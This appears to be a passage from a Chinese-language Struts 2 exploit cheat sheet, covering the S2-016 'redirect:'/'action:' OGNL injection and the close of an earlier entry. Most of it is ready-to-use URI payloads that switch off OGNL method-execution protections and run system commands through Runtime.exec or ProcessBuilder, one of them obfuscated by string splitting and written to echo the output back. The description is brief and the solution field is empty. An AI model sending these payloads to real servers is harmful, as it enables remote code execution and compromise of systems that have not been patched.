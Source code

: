 ```
/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@java.lang.Runtime@getRuntime().exec('whoami')}.action
```

---

#### S02-016 无回显

> Problem:
> 
> Struts 2 DefaultActionMapper支持通过前缀“action:”或“重定向:”前缀参数来进行短路导航状态更改的方法，然后是一个期望的导航目标表达式。该机制旨在帮助将导航信息附加到窗体内的按钮上。
> 
> 在Struts 2中，在2.3.15.1之前的“action:”，“redirect:”或“redirectAction:”没有经过适当的消毒。由于该信息将被评估为OGNL在值堆栈上的表达式，因此引入了注入服务器端代码的可能性。
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.3.15
> 
> Solution:
> 
> 

###### URI POC

```
?redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('co'+'m.ope'+'nsymph'+'ony.x'+'wor'+'k2.disp'+'atch'+'er.HttpSe'+'rvletRe'+'sponse'),#matt.getWriter().println(new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()}'
```

###### URI POC

```
?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'touch','fileName'})).start()}
```

###### URI POC

```
?redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29%7D
```

---

#### S02-019 Debug开发者模式
